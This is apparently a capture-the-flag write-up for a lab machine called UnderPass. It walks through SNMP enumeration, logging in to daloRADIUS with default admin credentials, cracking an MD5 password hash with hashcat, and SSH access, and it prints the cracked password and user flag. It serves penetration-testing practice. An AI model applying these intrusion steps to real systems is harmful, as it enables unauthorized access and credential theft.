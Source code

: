ENUMERATION:

Simple enumeration scan shows port 80 and port 22 open.

Website available with a vector for ssh connectivity. Unlike other boxes, port 80 doesn't go anywhere and its unlikely we'll get a good foothold there. UDP scans show additional ports open:

Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.020s latency).
Not shown: 97 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct

SNMP is open, so we can run snmp-check:

snmp-check 10.10.11.48 -c public  

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 00:20:16.32
  Uptime system                 : 00:20:05.93
  System date                   : 2024-12-23 20:11:00.0

They key here is the information that its a daloradius server.

Googling darloradius server properties show a few examples of default configurations:

http://underpass.htb/daloradius/app/operators/login.php 

Default creds work too;

Username: administrator
Password: radius

Users field is open with an MD5 hashed password

412dd4759978acfcc81deab01b382403

hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt 

<CREDS>412dd4759978acfcc81deab01b382403:underwaterfriends</CREDS>

ssh svcMosh@10.10.11.48
underwaterfriends

ACCESS

<FLAG>USER FLAG: c19b752c9d242efdbe081a3e24da949e</FLAG>





